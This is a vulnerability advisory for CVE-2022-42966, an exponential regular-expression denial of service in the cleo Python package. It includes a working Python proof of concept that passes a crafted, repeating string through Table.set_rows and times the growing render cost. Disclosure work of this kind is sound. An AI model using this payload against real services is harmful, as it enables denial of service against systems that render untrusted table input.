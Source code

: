 ```yaml
---
description: CVE-2022-42966 Medium severity. Exponential ReDoS in cleo leads to denial of service
title: cleo ReDoS
date_published: "2022-10-15"
last_updated: "2022-10-15"
xray_id: XRAY-257186
vul_id: CVE-2022-42966
cvss: 5.9
severity: medium
discovered_by: Denys Vozniuk
type: vulnerability

---
```


## Summary

Exponential ReDoS in cleo leads to denial of service

## Component

[cleo](https://pypi.org/project/cleo)

## Affected versions

cleo (,)

## Description

An exponential ReDoS (Regular Expression Denial of Service) can be triggered in the cleo PyPI package, when an attacker is able to supply arbitrary input to the `Table.set_rows` method

## PoC

```python
import time

from cleo import ui
from cleo.io.buffered_io import BufferedIO

from cleo.ui.table import Table
from cleo.ui.table_cell import TableCell
from cleo.ui.table_separator import TableSeparator
from cleo.ui.table_style import TableStyle
from cleo.ui.table_cell_style import TableCellStyle




def column_style(i):
    io = BufferedIO()
    table = Table(io)
    table.set_headers(["ISBN", "Title", "Author", "Price"])

    table.set_rows([
                ["99921-58-10-7", "Divine Comedy", "Dante Alighieri"],
                TableSeparator(),
                [TableCell('<0=,' + '000=0'*i + '00=0>', colspan=3,style=TableCellStyle())],
                TableSeparator(),
                [TableCell("Arduino: A Quick-Start Guide", colspan=2), "Mark Schmidt"],
                TableSeparator(),
                ["9971-5-0210-0", TableCell("A Tale of \nTwo Cities", colspan=2)],
            ])

    style = TableStyle()
    style.set_pad_type("left")
    table.set_column_style(3, style)
    table.set_column_style(2, style)

    table.render()


for i in range(1000):
    start = time.time()
    try:
        column_style(i)
    except:
        pass
    print(f"{i}: Done in {time.time() - start}")
```



## Vulnerability Mitigations

No mitigations are supplied for this issue

## References

[NVD](https://nvd.nist.gov/vuln/detail/CVE-2022-42966)